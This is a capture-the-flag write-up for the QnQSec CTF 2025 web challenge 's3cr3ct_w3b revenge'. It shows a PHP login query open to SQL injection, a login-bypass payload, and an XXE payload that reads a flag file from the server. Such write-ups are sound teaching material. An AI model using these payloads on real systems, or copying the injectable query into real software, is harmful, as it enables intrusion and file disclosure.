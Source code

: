 # s3cr3ct_w3b revenge — QnQSec CTF 2025

> **Room / Challenge:** s3cr3ct_w3b revenge (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** QnQSec CTF 2025
- **Challenge:** s3cr3ct_w3b revenge (web)
- **Target / URL:** `http://161.97.155.116:8088/`
- **Points:** `50`
- **Date:** `20-10-2025`

---

## Goal

We have to get the flag by leveraging XML viewer.

## My Solution

Examine the [source code](./s3cr3ct_w3b_revenge.zip), the source code is written in PHP however examine the Dockerfile, unlike s3cre3ct_web the DockerFile now is different:

```
FROM php:8.2-apache


RUN docker-php-ext-install pdo pdo_mysql

RUN a2enmod rewrite

COPY public/ /var/www/html/
RUN mkdir -p /var/flags && chown www-data:www-data /var/flags
COPY flag.txt /var/flags/flag.txt

WORKDIR /var/www/html/

EXPOSE 80
```

The flag.txt file is copied to `/var/flags/flag.txt` so we cannot access it like the s3cre3ct_web challenge anymore.

First we have to login as admin to use XML functionality, the `/login.php` route use this query:

```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

Easy SQL Injection can be used to logged in:

```
Username: ' OR '1'='1' --
Password: anything
```

After that, we can create an `exploit.xml` to upload that and get the `flag.txt` content in `/var/flags/flag.txt`:

```xml
<?xml version="1.0"?>
<!DOCTYPE r [
  <!ENTITY xxe SYSTEM "file:///var/flags/flag.txt">
]>
<r>&xxe;</r>
```
